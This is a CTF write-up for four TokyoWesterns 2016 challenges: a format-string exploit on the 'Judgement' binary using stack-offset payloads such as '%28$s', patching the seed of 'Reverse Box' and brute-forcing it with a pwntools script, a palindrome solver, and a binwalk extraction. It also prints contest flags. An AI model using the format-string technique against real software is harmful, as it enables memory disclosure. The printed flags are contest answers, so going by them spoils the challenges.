







Judgement (Pwn-50)
After opening the binary up in IDA, it was pretty obvious that we needed to exploit a format string vulnerability.

It looks like the flag was declared as a global variable, which means it will have a static address in the .bss Section. This definitely makes our lives easier.

So the flag is at 0x804a0a0. At first I thought I could supply the format string
\xa0\xa0\x04\x08%4$s
which would just print the flag, but then I realized that would not work, since the getline() function ensures that every character is printable.

The next thing I checked was if the address of the flag is anywhere on the stack when printf() is called.
python -c 'print "%x"*30' | ./judgement | grep 804a0a0
Input flag >> 3cf779ead0f7776b48110f7756000f7618c55f778886af7602209f760210df779e00080482e83fa1f75af298f7756d60f76041b8f77886eb804a00021fffb95b8f778ef1084290a0f7633390804a0a0f779e9181
Great! After a bit of trial and error, I found out that the address I wanted was the 28th value on the stack. We don't even need a script for this one.
Input flag >> %28$s
will give us the flag!
Reverse Box (Reversing-50)
I found an unintended solution to this one, so I was pretty happy about that. The contents of the flag leads me to believe that I was intended to reverse a substitution cypher. But anyways, here is my solution. It was pretty obvious that I was dealing with some kind of cypher.

The most important function here is the one that I named getRandStuff(). All it seemed to do was populate v5 with random bytes, which would then be used as substitutions for the characters in the flag and printed. However, the only entropy used to generate the random bytes was srand(time(NULL)).

Instead of just the raw binary, they gave us a .7z file. 7-zip preserves the timestamp of the creation of the file. So I figured I should look into that. Running stat on the binary produced the following results:
File: 'reverse_box'
Size: 5604 Blocks: 16 IO Block: 4096 regular file
Device: 801h/2049d Inode: 1063811 Links: 1
Access: (0755/-rwxr-xr-x) Uid: ( 1000/tylerlukasiewicz) Gid: ( 1000/tylerlukasiewicz)
Access: 2016-09-06 22:37:38.000000000 -0400
Modify: 2016-09-02 10:23:53.000000000 -0400
Change: 2016-09-06 22:37:38.224477030 -0400
Birth: -
So we know when the binary was created. I went to an online unix timestamp converter, which told me that 2016-09-02 10:23:53 corresponds to the epoch timestamp 1472811833, which is 0x57c95339 in hex. My plan was to patch the binary so that instead of the rand() function being seeded by time(NULL), it would be seeded by 0x57c95339. Then, since each byte in the
hash is independent of every other byte, I would be able to brute force the hash byte by byte.
The op-code to move a value into eax is just B8, followed by the four byte value. Of course we have to keep endianness in mind. Since there is extra space between the function prologue and srand(), I just filled all of the extra bytes with 0x90.

Here is what the assembly looks like after the patch.

Everything looks good to go!
The only trouble is that the hash for the flag probably was not created in the same second as when the binary was compiled. This meant I would also have to do a bit of brute forcing on the timestamp. My guess was that the hash was made fairly soon after the binary, so I figured I could probably get away with only brute forcing the least significant bit. So every value between 0x57c95339 and 0x57c953ff
Here is my final solution, which (much to my surprise) worked quite splendidly
from pwn import *
def patch(byte):
#getting position of byte to patch
sequence = '\xE9\x73\xFF\xFF\xFF\x55\x89\xE5\x83\xec\x28\xb8'
f = open("reverse_box",'rb')
bts = f.read()
pos = bts.find(sequence)
pos = pos + len(sequence)
#createing a temporary list for asignment
tmp = list(bts)
#patching the byte
tmp[pos]=chr(byte)
#writing to a temporary test file
newFile = open('test.elf','w')
newFile.write("".join(tmp))
#changing permissions so we can test the patch
subprocess.call(['chmod', '+x','test.elf'])
f.close()
newFile.close()
def brute():
hsh = "95eeaf95ef94234999582f722f492f72b19a7aaf72e6e776b57aee722fe77ab5ad9aaeb156729676ae7a236d99b1df4a"
bts = []
i = 0
while i < len(hsh):
bts.append(hsh[i:i+2])
i = i+2
flag =""
for byte in bts:
found = False
for c in range(0x20,0x7f):
p = process(['./test.elf' , chr(c)])
resp = p.recvline()
resp = resp.strip('\n')
if resp == byte:
flag += chr(c)
found = True
break
print flag
p.close()
if found == False:
print "bad time stamp :("
return False
return True
for toPatch in range(0x39,0xff):
patch(toPatch)
if brute() == True:
print "FUCK YEA"
exit()
TWCTF{5UBS717U710N_C1PH3R_W17H_R4ND0M123D_5-B0X}
Palindrome (Programming-50)
Your task is to make a palindrome string by rearranging and concatenating given words.
Input Format: N ...
Answer Format: Rearranged words separated by space.
Each words contain only lower case alphabet characters.
Example Input: 3 ab cba c
Example Answer: ab c cba
You have to connect to ppc1.chal.ctf.westerns.tokyo:31111(TCP) to answer the problem.
$ nc ppc1.chal.ctf.westerns.tokyo 31111
Time limit is 3 minutes.
The maximum number of words is 10.
There are 30 cases. You can get flag 1 on case 1. You can get flag 2 on case 30.
Here is my solution.
from itertools import permutations
from pwn import *
import time
def ispalindrome(word):
return word == word[::-1]
con = remote('ppc1.chal.ctf.westerns.tokyo',31111)
for i in range(1,31):
con.recvuntil("Case: #%d\nInput: " % i)
strings = con.recvline().strip('\n')
inputList= strings.split(' ')
con.recvuntil('Answer: ')
for p in permutations(inputList[1:]):
concat = ""
for string in p:
concat += string
if ispalindrome(concat) == True:
final = ""
for w in p:
final += w + " "
final += '\n'
print "[+] sending " + final
con.send(final)
print con.recvline()
break
Ninth (Misc-100)
I thought this one was a bit easy for the amount of points it was worth. Just use some binwalk magic:
binwalk -e ninth
cat _ninth.extracted/63
...
...
TWCTF{WAMP_Are_You_Ready?}